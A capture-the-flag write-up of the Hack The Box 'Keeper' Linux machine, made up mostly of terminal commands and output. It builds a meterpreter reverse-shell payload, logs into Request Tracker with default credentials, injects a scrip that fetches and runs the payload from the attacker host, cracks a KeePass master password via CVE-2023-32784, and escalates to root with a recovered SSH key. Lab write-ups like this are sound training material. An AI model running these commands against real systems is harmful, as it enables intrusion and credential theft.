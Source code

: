 # Target
| Category          | Details                                                |
|-------------------|--------------------------------------------------------|
| 📝 **Name**       | [Keeper](https://app.hackthebox.com/machines/Keeper)   |  
| 🏷 **Type**       | HTB Machine                                            |
| 🖥 **OS**         | Linux                                                  |
| 🎯 **Difficulty** | Easy                                                   |
| 📁 **Tags**       | Request Tracker, Metasploit, KeePassXC, CVE-2023-32784 |

# Scan
```
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
```


# Attack path
1. [Gain initial foothold by spawning reverse shell connection via Request Tracker user defined action script](#gain-initial-foothold-by-spawning-reverse-shell-connection-via-request-tracker-user-defined-action-script)
2. [Escalate to `lnorgaard` user using credentials discovered in `passcode.kdbx`](#escalate-to-lnorgaard-user-using-credentials-discovered-in-passcodekdbx)
3. [Escalate to `root` user using SSH private key discovered in `passcode.kdbx`](#escalate-to-root-user-using-ssh-private-key-discovered-in-passcodekdbx)

### Gain initial foothold by spawning reverse shell connection via Request Tracker user defined action script

#### Add `keeper.htb` and `tickets.keeper.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Keeper]
└─$ echo "$TARGET keeper.htb tickets.keeper.htb" | sudo tee -a /etc/hosts
10.129.142.107 keeper.htb tickets.keeper.htb
```

#### Generate `linux/x64/meterpreter/reverse_tcp` reverse shell and expose it over HTTP
```
┌──(magicrc㉿perun)-[~/attack/HTB Keeper]
└─$ msfvenom -p linux/x64/meterpreter/reverse_tcp \
    LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) \
    LPORT=4444 \
    -f elf \
    -o shell && \
python3 -m http.server
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: shell
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

#### Start Metasploit and listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Keeper]
└─$ msfconsole -q -x "use exploit/multi/handler; set LHOST tun0; set LPORT 4444; set payload linux/x64/meterpreter/reverse_tcp; run"
[*] Starting persistent handler(s)...
[*] Using configured payload generic/shell_reverse_tcp
LHOST => tun0
LPORT => 4444
payload => linux/x64/meterpreter/reverse_tcp
[*] Started reverse TCP handler on 10.10.16.5:4444
```

#### Create and execute Request Tracker reverse shell connection spawning user defined action script using default credentials
```
┌──(magicrc㉿perun)-[~/attack/HTB Keeper]
└─$ LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) && \
NEXT=$(curl -s http://tickets.keeper.htb/rt | grep -oP 'value="\K[^"]+' | head -n 1) && \
curl -s -L -c cookies.txt http://tickets.keeper.htb/rt -d 'user=root&pass=password&next=$NEXT' -o /dev/null && \
curl -b cookies.txt http://tickets.keeper.htb/rt/Admin/Scrips/Create.html -H "Referer: http://keeper.htb" -d "Queue=0&Global=&Description=ReverseShell&ScripCondition=1&ScripAction=17&Template=Blank&Stage=TransactionCreate&SetEnabled=1&Enabled=1&CustomIsApplicableCode=&CustomPrepareCode=%7B%0D%0A++++system%28%22wget+-P+%2Ftmp+http%3A%2F%2F$LHOST%3A8000%2Fshell%3B+chmod+%2Bx+%2Ftmp%2Fshell%3B+%2Ftmp%2Fshell%22%29%3B%0D%0A++++return+1%3B%0D%0A%7D%0D%0A&CustomCommitCode=&Create=Create" && \
curl -b cookies.txt http://tickets.keeper.htb/rt/Ticket/Create.html -H "Referer: http://keeper.htb" \
    -F id=new \
    -F Queue=1 \
    -F Status=new \
    -F Owner=6 \
    -F Requestors=root@localhost \
    -F Content=Connect
```

#### Confirm initial foothold gained
```
[*] Sending stage (3045380 bytes) to 10.129.142.107
[*] Meterpreter session 1 opened (10.10.16.5:4444 -> 10.129.142.107:33492) at 2025-08-27 10:13:32 +0200

meterpreter > getuid
Server username: www-data
```

### Escalate to `lnorgaard` user using credentials discovered in `passcode.kdbx`

#### Exfiltrate `/home/lnorgaard/RT30000.zip` containing KeePassXC password database
```
meterpreter > download /home/lnorgaard/RT30000.zip
```

#### Discover master password for `passcode.kdbx` from `KeePassDumpFull.dmp` using `keepass-password-dumper` ([CVE-2023-32784](https://nvd.nist.gov/vuln/detail/cve-2023-32784))
```
┌──(magicrc㉿perun)-[~/attack/HTB Keeper]
└─$ sudo docker run -it --rm -v .:/app -w /app mcr.microsoft.com/dotnet/sdk:7.0 /bin/bash -c "git clone https://github.com/vdohney/keepass-password-dumper.git && cd keepass-password-dumper && dotnet run ../KeePassDumpFull.dmp"
<SNIP>
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M, 
3.:     d, 
4.:     g, 
5.:     r, 
6.:     ø, 
7.:     d, 
8.:      , 
9.:     m, 
10.:    e, 
11.:    d, 
12.:     , 
13.:    f, 
14.:    l, 
15.:    ø, 
16.:    d, 
17.:    e, 
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```
`dgrød med fløde` is discovered, after looking up it in Google `rødgrød med fløde` (traditional Danish summer dessert) is suggested.  

#### Discover credentials for `lnorgaard` user in `passcodes.kdbx`
```
┌──(magicrc㉿perun)-[~/attack/HTB Keeper]
└─$ echo "rødgrød med fløde" | keepassxc-cli show passcodes.kdbx "Network/Ticketing System" --attributes UserName --attributes Password
Enter password to unlock passcodes.kdbx: 
lnorgaard
Welcome2023!
```

#### Gain access over SSH with discovered credentials
```
┌──(magicrc㉿perun)-[~/attack/HTB Keeper]
└─$ ssh lnorgaard@keeper.htb
lnorgaard@keeper.htb's password: 
<SNIP>
lnorgaard@keeper:~$ id
uid=1000(lnorgaard) gid=1000(lnorgaard) groups=1000(lnorgaard)
```

### Escalate to `root` user using SSH private key discovered in `passcode.kdbx`

#### Discover `root` PuTTY Private Key in `passcode.kdbx` and convert it to OpenSSH 
```
┌──(magicrc㉿perun)-[~/attack/HTB Keeper]
└─$ echo "rødgrød med fløde" | keepassxc-cli show passcodes.kdbx "Network/keeper.htb (Ticketing Server)" --attributes Notes | puttygen /dev/stdin -O private-openssh -o id_rsa
```

#### Gain access over SSH using converted key
```
┌──(magicrc㉿perun)-[~/attack/HTB Keeper]
└─$ ssh root@keeper.htb -i id_rsa           
<SNIP>
root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
```
